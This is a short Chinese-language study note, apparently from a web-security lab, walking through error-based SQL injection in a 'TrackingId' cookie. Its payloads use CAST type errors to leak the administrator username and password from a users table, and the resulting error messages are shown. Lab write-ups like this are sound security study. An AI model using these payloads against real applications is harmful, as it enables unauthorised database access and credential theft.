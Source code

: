 ```SQL
TrackingId=ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)--
```

==**等号在这里是比较运算符**==
```SQL
TrackingId=ogAZZfxtOKUELbuJ' AND 
1=CAST((SELECT 1) AS int)--
```
## 解释
CAST() AS 数据类型
将括号里的变为相应的数据类型
由于AND要和逻辑语句相连而不是整形，故会报错

## 总之很懵，就把原来的cookie的参数给删除了

![[可视化的报错.png]]

```SQL
TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--
```
这个没有报错行

```SQL
TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--
```
这个有报错行
ERROR: more than one row returned by a subquery used as an expression

最后限制一下它的显示行数
### 拿账号
```SQL
TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```
ERROR: invalid input syntax for type integer: "administrator"
### 拿密码
```SQL
TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```
ERROR: invalid input syntax for type integer: "4rgp2mnmetlokw2husad"
